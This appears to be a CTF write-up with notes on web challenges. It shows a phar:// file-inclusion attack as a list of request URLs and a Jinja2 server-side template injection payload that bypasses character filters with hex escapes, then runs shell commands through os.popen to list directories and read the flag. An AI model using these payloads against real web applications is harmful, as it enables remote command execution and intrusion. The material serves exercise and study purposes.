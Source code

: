 flag

    xmctf{f8e74d4b1b3fcd479f9b2a6a9ef935e0} 

## xweb6

2019巅峰极客upload

https://www.chainnews.com/articles/284498604176.htm

https://www.anquanke.com/post/id/189142#h3-12

test.jpg
http://xmctf.top:8841/file.php?file=
http://xmctf.top:8841/file.php?file=phar:///var/www/html/upload/0412c29576c708cf0155e8de242169b1.jpg
http://xmctf.top:8841/file.php?file=phar://upload/0412c29576c708cf0155e8de242169b1.jpg
http://xmctf.top:8841/file.php?file=phar://pos(localeconv())/upload/0412c29576c708cf0155e8de242169b1.jpg
http://xmctf.top:8841/file.php?file=phar://upload/098f6bcd4621d373cade4e832627b4f6.jpg
http://xmctf.top:8841/file.php?file=ph\ar:///var/www/html/upload/0412c29576c708cf0155e8de242169b1.jpg

文件在upload目录下。
?file=phar:///var/www/html/upload/0412c29576c708cf0155e8de242169b1.jpg
?file=phar:///upload/0412c29576c708cf0155e8de242169b1.jpg

## web11
Hello guest!

?name={{4*4}}

有结果，ssti注入

测试过滤了 `['.', '_', 'config']`


bytearray.fromhex(hex(0x4142)[2:])

```python
默认参考payload
/hello?name={{"".__class__.__base__.__subclasses__()[302].__init__.__globals__["os"].popen("cat /app/flag").read()}}

302是popen.本题过滤了[._] 使用16进制 \x5f绕过_ , \x2e绕过.

\x5f\x5fbase\x5f\x5f => __base__
.调用使用[]绕过 ()["\x5f\x5fclass\x5f\x5f"] => ().__class__
```
先ls查找下flag。
```python
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("ls")["read"]()}}
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("ls /")["read"]()}}
```
当前目录发现app.py， 在根目录发现了fl4g
